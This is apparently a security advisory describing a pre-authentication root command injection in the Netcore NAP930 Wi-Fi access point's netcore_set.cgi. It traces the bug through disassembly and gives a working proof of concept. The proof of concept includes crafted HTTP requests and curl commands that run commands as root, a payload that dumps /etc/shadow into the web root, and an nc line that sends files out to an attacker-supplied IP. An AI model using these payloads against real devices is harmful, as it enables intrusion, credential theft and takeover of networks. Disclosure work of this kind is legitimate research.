







# Netcore NAP930 Access Point

- Vendor: Netcore
- Product: Netcore NAP930 (WiFi 6 Access Point, up_model: NAP930)
- Firmware Version: V0.1.241010.141410 (OpenWrt 21.02-SNAPSHOT r0-1d32b23a6, mediatek/mt7981, aarch64 cortex-a53)
- Vulnerability Type: Unauthenticated OS Command Injection (CWE-78)

## Overview

A pre-authentication command injection vulnerability exists in the vendor binary CGI `netcore_set.cgi` of the Netcore NAP930 access point. An unauthenticated attacker can execute arbitrary shell commands with **root** privileges via a single crafted HTTP GET/POST request:

`GET /cgi-bin/cgi-bin-igd/netcore_set.cgi?lan_ip_set=1;CMD; HTTP/1.1`

No credentials are required. The CGI is reachable through `uhttpd` (ports 80/443/23355); CGIs execute as root. This endpoint is the AP-side configuration surface used by the vendor's AC (Access Controller) management protocol and performs **no session/authorization check of any kind**.

## Vulnerability Details

The vulnerability resides in `/www/cgi-bin/cgi-bin-igd/netcore_set.cgi` (29 KB stripped aarch64 ELF, non-PIE, base 0x400000). Taint flow (instruction level, recovered via custom PLT/GOT reconstruction disassembly):

```
0x401050  main:
  0x40108c   fscanf(stdin, "%s", buf)                    <- POST body (first token)
  0x4010fc   getenv("QUERY_STRING") -> snprintf(buf,..)  <- GET query string

0x403c3c  sink #1 (lan_ip_set):            value required, NO validation at all
  0x403c6c   snprintf(buf, 0x28, "echo %s >/tmp/1.txt", value)
  0x403c74   system(buf)                                 <- injection
0x403b18  sink #2 (location_time):         NO validation
  0x403b64   sprintf(buf, "echo %s >/tmp/location_time", value); 0x403b6c system(buf)
0x403b9c  sink #3 (location_time_enable):  atoi(value)!=0 gate, then same pattern (0x403bfc)
0x403a8c  sink #4 (led_off_on_status):     atoi(value)!=0 gate (0x403adc)
```



```
0x401320  parse "key=value" pairs into a linked list
  0x4011d0 / 0x401270   split key/value at '=' / '&'
  0x4045d8   urldecode(part)     <- performs ONLY %XX and '+' decoding, no character filtering
```





```
0x4045d8  urldecode(part)   <- the ONLY transform ever applied to user input:
      0x4045ec/0x4045f8   calloc(strlen(part)+1), byte loop
      0x404618   cmp w1, #0x2b ('+')  -> emitted as 0x20 (space)
      0x404638   cmp w1, #0x25 ('%')  -> next two hex nibbles decoded to one byte
      otherwise   byte copied verbatim
      => performs ONLY %XX and '+' decoding; NO allowlist, NO blacklist,
         NO shell-metacharacter filtering of any kind (root cause #1)
```





```
0x402c38  dispatcher:
  popen("uci get auto_ac.auto_ac.para_by")   <- sole gate
  -> passes when the value is EMPTY or equals "old_ac"
     (factory-fresh devices have this UCI option unset, so the gate is open by default)
0x403c3c  sink #1 (lan_ip_set):            value required, NO validation at all
  0x403c6c   snprintf(buf, 0x28, "echo %s >/tmp/1.txt", value)
  0x403c74   system(buf)                                 <- injection
0x403b18  sink #2 (location_time):         NO validation
  0x403b64   sprintf(buf, "echo %s >/tmp/location_time", value); 0x403b6c system(buf)
0x403b9c  sink #3 (location_time_enable):  atoi(value)!=0 gate, then same pattern (0x403bfc)
0x403a8c  sink #4 (led_off_on_status):     atoi(value)!=0 gate (0x403adc)
```





Between the parameter getter and the `system()` sink there is **no filtering, quoting or escaping**: the decoded value is embedded verbatim after `echo `. Any shell metacharacter (`;`, `|`, `` ` ``, `$()`, redirections) executes directly — no quote breakout is even required.

Captured during verification (strace on the emulated firmware):

```
execve("/bin/sh", ["sh", "-c", "echo 1;id>/tmp/sv; >/tmp/1.txt"], ...)
-> /tmp/sv contains: uid=0(root) gid=0(root) groups=0(root)
```

## Proof of Concept

Step 1 — unauthenticated command injection (`;` URL-encoded as `%3B`; spaces as `%09` — the CGI percent-decodes values):

```http
GET /cgi-bin/cgi-bin-igd/netcore_set.cgi?lan_ip_set=1%3Bid%3E/www/pwn.txt%3B HTTP/1.1
Host: 192.168.1.1
Connection: close

```

Response (a "Bad Gateway" may be returned because the injected `system()` child inherits the CGI stdout — the command has already executed; judge by the side effect, not the status):

```
<h1>Bad Gateway</h1>
```

Step 2 — retrieve the command output:

```http
GET /pwn.txt HTTP/1.1
Host: 192.168.1.1

```

Response:

```
uid=0(root) gid=0(root) groups=0(root)
```

curl equivalents:

```sh
curl "http://<target>/cgi-bin/cgi-bin-igd/netcore_set.cgi?lan_ip_set=1%3Bid%3E/www/pwn.txt%3B"
curl "http://<target>/pwn.txt"
```

Reading arbitrary files (exfiltrate the shadow file into the web root):

```
lan_ip_set=1%3Bcat%09/etc/shadow%3E/www/pwn.txt%3B
```

Outbound exfiltration (minimal busybox `nc` without `-e`; reverse channel to the attacker):

```
lan_ip_set=1%3Bnc%09<ATTACKER_IP>%09<PORT>%09</etc/banner%3B
```

Payload notes: the value is percent-decoded before use, so `%3B`=`;`, `%09`=TAB (word separator — `${IFS}` expands with an embedded newline on this `system()` path and breaks the command). Sinks #3/#4 additionally require the value to start with a non-zero integer (e.g. `1;...`).

## Impact

An unauthenticated LAN attacker obtains arbitrary command execution as **root**, resulting in full device compromise: configuration disclosure (`/etc/shadow`, Wi-Fi keys, DDNS credentials), persistence via writable flash, and lateral pivoting into the managed network. The only precondition (`auto_ac.auto_ac.para_by` unset or `old_ac`) holds on factory-default devices.

## Reproduction Result

Dynamically verified against the firmware emulated with qemu-aarch64 user-mode + chroot (uhttpd on :8080, original rootfs, factory-state `para_by`):



```
$ curl "http://192.168.1.5:8080/cgi-bin/cgi-bin-igd/netcore_set.cgi?lan_ip_set=1%3Bid%3E/www/pwn.txt%3B"
$ curl "http://192.168.1.5:8080/pwn.txt"
uid=0(root) gid=0(root) groups=0(root)
```

strace captured the tainted `system()` invocation verbatim: `sh -c "echo 1;id>/tmp/sv; >/tmp/1.txt"`. An outbound reverse `nc` channel from the emulated device to the Windows attack host delivered `/etc/banner` in full, confirming end-to-end exploitation from an external host.
